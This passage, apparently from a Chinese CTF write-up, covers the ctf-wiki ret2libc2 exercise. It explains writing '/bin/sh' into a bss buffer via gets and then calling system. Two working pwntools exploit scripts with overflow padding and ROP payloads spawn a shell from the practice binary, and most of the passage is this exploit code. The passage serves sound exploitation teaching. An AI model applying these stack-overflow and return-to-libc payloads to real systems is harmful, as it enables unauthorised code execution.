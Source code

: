 相比ret2libc1，该程序没有`/bin/sh`字符串，但是其bss段有变量buf可以写入，所以需要两个gadget，第一个把`/bin/sh`写入buf，第二个执行system函数。

```python
#!/usr/bin/env python

from pwn import *
from LibcSearcher import LibcSearcher
# 0x08048490 system
# 0x0804A080 buf2
# 0x08048460 gets

sh = process('./ret2libc2')
file = ELF('./ret2libc2')

system = 0x08048490
buf2 = 0x0804A080
main = file.symbols['main']
gets = 0x08048460

# gdb.attach(sh)
payload = flat(['A'*0x6c,0xdeadbeef,gets,main,buf2])
sh.sendline(payload)
sh.sendline('/bin/sh\x00')
payload2 = flat(['A'*0x64,0xdeadbeef,system,0xdeadbeef,buf2])
sh.sendline(payload2)
sh.interactive()
```

上面的代码可以成功获得shell，但是相比于wiki提供的解法搞得有点复杂了，其实只需要跟着gets执行system会方便很多

```python
from pwn import *

# 0x08048490 : system .plt
# 0x08048460 ：gets .plt
# 0x0804A080 : buf2 .bss

##!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')
system = p32(0x08048490)
gets = p32(0x08048460)
buf2 = p32(0x0804A080)

payload = b'a'*112 + gets + system + buf2 + buf2

sh.recvuntil('What do you think ?')
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```

#### [ret2libc3](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#3)
